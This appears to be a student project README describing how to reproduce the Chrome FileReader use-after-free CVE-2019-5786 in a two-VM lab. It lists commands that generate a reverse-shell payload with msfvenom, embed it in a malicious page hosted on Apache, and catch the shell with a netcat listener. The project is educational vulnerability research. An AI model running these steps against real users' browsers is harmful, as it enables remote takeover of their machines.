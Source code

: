 # CMPT733-Group9

**Members**: Yogesh Chaudhary, Haolin Ye, Madhvik Patel

**Topic**: Reproducing CVE-2019-5786 chrome Filereader Use-After-Free vulnerability
<br />
<br />

## Environment

- VM for Windows7 (32-bit) with the vulnerable chrome version installed: [Link](https://drive.google.com/file/d/1nraxRiuc1U02qz4ODMIiIuF5ftgp15Wl/view?usp=sharing)
- A Linux VM (such as Ubuntu 16.04)

If you want to have a fresh build, here are the resources you need:

- VM file for Windows 7 (32-bit) from Microsoft: [Link](https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/)
- Google_Chrome (v72.0.3626.119): [Link](https://drive.google.com/file/d/128dxHVSc-pwEI0Rnyl_Hadfait1xDuNf/view?usp=sharing)

You should put these two VMs in the same LAN for convenience and make sure they can find each other. If you are using Virtualbox, select "NAT Network"; If you are using VMWare, select "NAT".

![diag](./diag.png)
<br />
<br />
<br />

## How to run the exploit

### Setups on the attacker side (Linux VM)

You need to host the malicious website on the Linux VM so make sure you have apache2 installed. You can verify if the service is running by following command on Linux VM:

```
systemctl status apache2
```



Firstly, generate a new shellcode because you need to include attacker VM's ip address in the shellcode. You can check the ip address of Linux VM by `ifconfig`. Then, use a very popular tool called [MsfVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) to generate the shellcode and encode it with percent-encoding. Execute the following command by replacing YOUR_IP with your Linux VM's ip address.

```
msfvenom -p windows/powershell_reverse_ tcp LHOST=YOUR_IP LPORT=4449 PayloadBindPort=4449 -a x86 --platform windows -f js_le -e generic/none
```

Then, open `index.html` and search for `shellcode` variable. Replace it with the shellcode you just generated.

<br />

Secondly, move the malicious website (index.html) to the web root folder of apache2

```
sudo mv index.html /var/www/html
```

<br />

Thirdly, start a local listener using netcat and cross your finger

```
nc -lvnp 4449
```



### On Windows7 VM

You need to open cmd and run chrome.exe out of sandbox environment with the flag `--no-sandbox`. Here are the commands:

```
cd "C:\Program Files\Google\Chrome\Application"

chrome.exe --no-sandbox
```



Finally, visit the malicious website hosted on Linux VM. For example, if the ip address of your Linux MV is 10.0.2.4, you should visit the url `http://10.0.2.4`

<br />

If the exploitation is successful, you can see a reverse shell established on Linux VM. If the malicious page is crashed, simply refresh the page and try again since we might not get multiple references all the time and also due to some heap randomisation.

<br />
<br />

## Video Demo

You can also check our demo [here](https://youtu.be/Wq8kT_a6ZLQ) on YouTube.
